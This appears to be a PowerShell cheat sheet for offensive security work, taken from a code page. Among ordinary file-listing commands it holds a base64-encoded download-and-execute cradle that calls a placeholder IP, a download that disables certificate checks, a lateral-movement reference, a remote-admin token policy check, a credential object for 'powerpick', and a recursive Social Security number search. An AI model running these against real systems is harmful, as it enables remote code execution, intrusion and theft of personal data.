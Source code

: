 Download a file
```
	[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};(new-object system.net.webclient).downloadfile("https://www.mydomain.com/file","C:\Users\username\AppData\Local\Temp\file.txt")
```

Encode string
```
    echo "iex (New-Object Net.WebClient).DownloadString('http://192.168.1.1:80/file')" | iconv --to-code UTF-16LE | base64 -w 0
```

List recently modified files in path (U:)
```
	Get-Childitem u:\ -Recurse | where-object {!($_.psiscontainer)} | where { $_.LastWriteTime -gt $(Get-Date).AddDays(-1)  } | foreach {"$($_.LastWriteTime) :: $($_.Fullname) "  }
```

List Files 
```
	Select-String -Path c:\fso\*.txt, c:\fso\*.log -pattern ed
```

List First 100 Files
```
	Get-ChildItem -Path XXX |Select -First 100 Fullname
```

List a Process's Loaded Modules (DLL)
```
	get-process -id 1234|select -expand modules
```

Remote Command Execution using MMC
```
	https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/
```

Get LocalAccountTokenFilterPolicy (Determine if you can authenticate to admin resources over the network, i.e. C$,ADMIN$)
```
	Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\ |Select LocalAccountTokenFilterPolicy |fl
```

Test User Credentials
```
	powerpick $password = ConvertTo-SecureString "PlainTextPassword" -AsPlainText -Force;$cred= New-Object System.Management.Automation.PSCredential ("domain\name", $password);
```

Search for SSN

 https://technet.microsoft.com/en-us/library/2008.04.securitywatch.aspx
```
	$SSN_Regex = " [0-9]{3}[-| ][0-9]{2}[-| ][0-9]{4}" ; Get-ChildItem . -Recurse -exclude *.exe,*.dll| Select-String -Pattern $SSN_Regex | Select-String -Pattern $SSN_Regex| Select-Object Path,Filename,Matches |ft -auto|out-string -width 200; "[*] SSN Search Complete!"
```
